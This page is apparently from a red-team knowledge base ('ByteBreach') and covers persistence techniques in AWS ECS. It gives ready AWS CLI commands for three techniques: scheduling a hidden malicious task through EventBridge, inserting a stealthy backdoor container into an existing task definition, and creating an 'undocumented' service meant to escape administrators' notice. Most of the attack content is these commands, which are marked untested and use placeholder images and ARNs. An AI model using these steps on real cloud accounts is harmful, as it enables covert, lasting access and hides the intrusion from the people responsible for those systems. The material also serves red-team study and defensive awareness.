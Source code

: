 # AWS - ECS Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## ECS

For more information check:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Hidden Periodic ECS Task

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create a hidden periodic ECS task using Amazon EventBridge to **schedule the execution of a malicious task periodically**. This task can perform reconnaissance, exfiltrate data, or maintain persistence in the AWS account.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
  {
    "Id": "malicious-ecs-task-target",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
      "TaskCount": 1
    }
  }
]'
```

### Backdoor Container in Existing ECS Task Definition

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can add a **stealthy backdoor container** in an existing ECS task definition that runs alongside legitimate containers. The backdoor container can be used for persistence and performing malicious activities.

```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
  {
    "name": "legitimate-container",
    "image": "legitimate-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "backdoor-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Undocumented ECS Service

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create an **undocumented ECS service** that runs a malicious task. By setting the desired number of tasks to a minimum and disabling logging, it becomes harder for administrators to notice the malicious service.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
